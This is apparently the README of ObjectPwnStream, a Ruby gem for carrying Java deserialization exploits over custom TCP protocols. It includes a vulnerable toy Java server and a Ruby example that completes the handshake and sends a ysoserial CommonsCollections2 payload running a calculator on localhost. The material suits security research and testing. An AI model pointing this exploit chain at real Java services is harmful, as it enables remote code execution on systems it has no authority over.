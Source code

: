 # ObjectPwnStream

a Ruby implementation of Java's `ObjectInputStream` and `ObjectOutputStream`, to ease the process of Java deserialization exploitation on custom TCP based network protocols.

## Installation

Add this line to your application's Gemfile:

```ruby
gem 'ObjectPwnStream'
```

And then execute:

    $ bundle

Or install it yourself as:

    $ gem install ObjectPwnStream

Or install it from main branch:

    $ git clone https://github.com/hakivvi/ObjectPwnStream
    $ cd ObjectPwnStream
    $ bundle install && bundle exec rake install
## Usage
the library provides a set of methods to mimic the methods of both `ObjectInputStream` and `ObjectOutputStream`,

the `readObject()` method is not always the first function run on a TCP socket, so you can't just feed the server with your serialized payload or else `java.io.StreamCorruptedException` will be thrown by the server.

take this [toy server](https://github.com/hakivvi/ObjectPwnStream/blob/main/spec/test/ToyServer.java) for example, which does read and write a bunch of types before actually calling `readObject()` which the attacker is usually interested in:
```java
                s = serverSock.accept();
                System.out.println("[+] Connection accepted from " + s.getInetAddress().getHostAddress() + ":" + s.getPort());
                
                oos = new ObjectOutputStream(s.getOutputStream());
                ois = new ObjectInputStream(s.getInputStream());

                oos.writeInt(serverVersion);
                oos.flush();
                System.out.printf("[>] writeInt(): 0x%x\n", serverVersion);

                System.out.printf("[<] readInt(): 0x%x\n", ois.readInt());

                oos.writeUTF(serverName);
                oos.flush();
                System.out.printf("[>] writeUTF(): %s\n", serverName);

                System.out.printf("[<] readUTF(): %s\n", ois.readUTF());


                oos.writeShort(0xabcd);
                oos.flush();
                System.out.printf("[>] writeShort(): 0x%x\n", 0xabcd);

                System.out.printf("[<] readShort(): 0x%x\n", ois.readShort());
                
                oos.writeLong(-12345);
                oos.flush();
                System.out.printf("[>] writeLong(): %d\n", -12345);

                System.out.printf("[<] readLong(): %d\n", ois.readLong());


                oos.writeObject(new ToyServer());
                oos.flush();
                System.out.println("[>] writeObject()");

                System.out.println("[<] readObject()");
                try {
                	ois.readObject();
               	} catch (Throwable e) {}
```
to reach the `readObject()` method in this server connection, we should read and write successively `int`, `utf`, `short` etc.
using `ObjectPwnStream` library, we can do just that:
```ruby
require 'ObjectPwnStream'

pwnStream = ObjectPwnStream::PwnStream.new("127.0.0.1", 9090)
pwnStream.connect!
pwnStream.open_streams!
pwnStream.read_int
pwnStream.write_int 0x1337
pwnStream.read_utf
pwnStream.write_utf "ObjectPwnStream"
pwnStream.read_short
pwnStream.write_short 0xabcd
pwnStream.read_long signed=true
pwnStream.write_long -12345
pwnStream.read_object
pwnStream.ysoserial_generate!("./ysoserial.jar","CommonsCollections2", "gnome-calculator", encode: true, windows: false)
pwnStream.write_object(ysoserial: true)
```
## PoC

find a test vulnerable Java server and a Ruby ObjectPwnStream exploit in the [test](https://github.com/hakivvi/ObjectPwnStream/tree/main/spec/test) directory.

![poc](https://user-images.githubusercontent.com/67718634/170808392-1ce8efff-b8c6-4372-8d7a-b20b4fbeadc9.gif)


## Development

After checking out the repo, run `bin/setup` to install dependencies. Then, run `rake spec` to run the tests. You can also run `bin/console` for an interactive prompt that will allow you to experiment.

To install this gem onto your local machine, run `bundle exec rake install`. To release a new version, update the version number in `version.rb`, and then run `bundle exec rake release`, which will create a git tag for the version, push git commits and tags, and push the `.gem` file to [rubygems.org](https://rubygems.org).

## Contributing

Bug reports and pull requests are welcome on GitHub at https://github.com/hakivvi/ObjectPwnStream. This project is intended to be a safe, welcoming space for collaboration, and contributors are expected to adhere to the [Contributor Covenant](http://contributor-covenant.org) code of conduct.

## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).

## Code of Conduct

Everyone interacting in the ObjectPwnStream project’s codebases, issue trackers, chat rooms and mailing lists is expected to follow the [code of conduct](https://github.com/[USERNAME]/ObjectPwnStream/blob/master/CODE_OF_CONDUCT.md).

## Todo

- document all the functions.
- support CLI mode.
